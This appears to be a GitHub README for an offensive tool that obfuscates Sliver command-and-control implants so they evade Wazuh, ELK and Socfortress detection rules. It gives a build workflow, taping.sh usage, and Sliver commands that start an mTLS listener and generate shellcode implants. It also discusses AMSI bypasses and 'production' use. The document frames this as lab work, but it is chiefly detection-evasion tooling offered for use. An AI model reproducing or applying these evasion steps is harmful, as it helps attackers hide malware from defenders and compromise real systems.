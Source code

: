 # Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfsucation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK rules—out, Wazuh YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh
1. Fork [Sliver](https://github.com/BishopFox/sliver) to your own repository.  
2. Clone the repo on your server.  
3. Place this [Tape](https://github.com/Oni-kuki/Tape) repo in front of your forked [Sliver](https://github.com/BishopFox/sliver) repo (on your server, of course)
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)

> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).  
> I have a better solution if you want to use the latest version because Donut-based payloads in 1.6 are not flagged as much yet.   

```taping.sh
./taping.sh version 1.5 FOLDER/
./taping.sh version 1.6 FOLDER/
```

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  
> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.

## Some Recomendations
> [!NOTE]
> Build the 1.5 version 
> Next to this build the 1.6 version
> Add the sliver-server binary of 1.6 to the 1.5,like external builder and use it for every implant generation

### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  
